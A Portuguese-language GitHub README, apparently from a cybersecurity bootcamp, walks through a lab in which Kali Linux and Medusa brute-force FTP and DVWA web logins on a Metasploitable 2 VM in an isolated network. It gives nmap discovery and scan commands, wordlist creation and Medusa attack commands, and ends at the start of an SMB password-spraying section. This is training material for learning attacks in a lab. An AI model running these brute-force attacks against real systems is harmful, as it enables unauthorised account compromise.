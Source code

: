 # Laboratorio: Criando um ataque de brute force de senhas com medusa e kali linux (DIO)
Este repositório documenta a execução de um desafio prático de segurança da informação, focado em ataques de força bruta. O projeto foi desenvolvido como parte do bootcamp de Cyber Segurança do Santander - Cibersegurança 2025 - DIO.

*Autor:* Marcelo Leal

*LinkedIn:* https://www.linkedin.com/in/slmarcelo/

---

##  Descrição do Desafio

O objetivo deste projeto é implementar e documentar um cenário prático de ataque de força bruta utilizando *Kali Linux* e a ferramenta *Medusa. O ambiente de teste controlado é composto por máquinas virtuais vulneráveis (como **Metasploitable 2* e *DVWA*) para simular ataques a diferentes serviços (FTP, Web e SMB) e, em seguida, propor as devidas medidas de mitigação.

## 1. Configuração do Ambiente (Laboratório)

Para a realização dos testes, foi configurado um laboratório virtual isolado, garantindo que todas as atividades de pentest ficassem contidas e seguras.

* *Software de Virtualização:* VirtualBox
* *Configuração de Rede:* "Rede Interna" (VirtualBox) para isolar as VMs do restante da rede.

### Máquinas Virtuais

| Propósito | Sistema Operacional | Endereço IP (Exemplo) |
| :--- | :--- | :--- |
| 📍 *Atacante* | Kali Linux | 192.168.56.xxx |
| 🎯 *Vítima* | Metasploitable 2 | 192.168.56.xxx |

### Ferramentas Utilizadas

* *Nmap:* Para reconhecimento e escaneamento de portas e serviços.
* *Medusa:* Ferramenta principal para a execução dos ataques de força bruta.
* *Enum4Linux:* Para enumeração de usuários no serviço SMB.
* *Wordlists:* Listas de senhas e usuários


## 2. Descobrir IPs e verificar a conectividade entre as maquinas

Para descobrir o ip do Kali 

bash
ip addr

Com os seguintes comando é possivel descobrir os ips da rede para encontrar a VM Metasploitable

```bash
arp  -a
```

```bash
sudo nmap -sn 192.168.56.0/24
```

```bash 
sudo netdiscover -r 192.168.56.0/24
```


![Descobrindo IPs](imagens/descobrindo_ips.PNG)

Com os comando acima descobrimos que o ip da nossa VM Metasploitable é IP: 192.168.56.103

Confirmando o IP no Metasploitable

![IPs Meta](imagens/verificacao_ip_meta.PNG)

### 3. Reconhecimeto (nmap)

Com  o seguinte comando vamos verificar os serviços disponiveis no sistema alvo

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.103
```

![Scan Report NMAP](imagens/scan_report.PNG)

Apos rodar o scan temos os serviço e as versoes que estão rodando 

Para confirma se o serviço esta ativo vamos realizar a tentativa de conexao 

![Conectar ao FTP](imagens/conexao_ftp.PNG)


### 3.a Criando a wordlist para utilizar no ataque

No terminal do kali vamos digitar o sguinte comando 

Para criar a wordlist com os usuarios

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
```
para criar a wordlist com os senhas

```bash
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

![Wordlist](imagens/wordlist.PNG)


### 3.b O ataque (com o medusa)

Vamos utilizar o seguinte comando para executar o ataque

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6 -f
```

Parâmetros principais:

-h host alvo

-U arquivo com usuário(s)

-P arquivo com senhas

-M ftp módulo FTP

-T 6 threads (paralela)

-f parar ao encontrar sucesso (opcional)

![Ataque](imagens/ataque.PNG)


Para validar o usuario e senha vamos executar o comando de acesso ao FTP

```bash
ftp 192.168.56.103 
```


![acesso](imagens/validacaoftp.PNG)


### 4 Ataque ao Formulário Web (DVWA formularios de login)

Simular um ataque de força bruta em um formulário de login web (DVWA) usando o módulo HTTP/form do Medusa (ou ferramentas alternativas como Hydra/Patator).

Descobrindo os parametros que o navegador espera receber


![falhalogin](imagens/falhadelogin.PNG)


Sabemos que o navegar espera receber (username; password; Login)

Executamos o seguinte comando 

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M http \
-m PAGE:'/dvwa/login.php' \
-m FORM:'username=^USER^&password=^PASS^&Login=Login' \
-m 'FAIL=Login failed' -t 6
```


apos rodar o comando vamos obter o seguinte resultado

![user e senha](imagens/usersenha.PNG)

testando os dados obtidos

![teste user e senha](imagens/testeusersenha.PNG)


### 5. Ataque em cadeia, enumeração SMB + Password Spraying

Demonstrar a técnica de password spraying contra o serviço SMB/Windows (tentar poucas senhas comuns contra muitos usuários para evitar bloqueios).









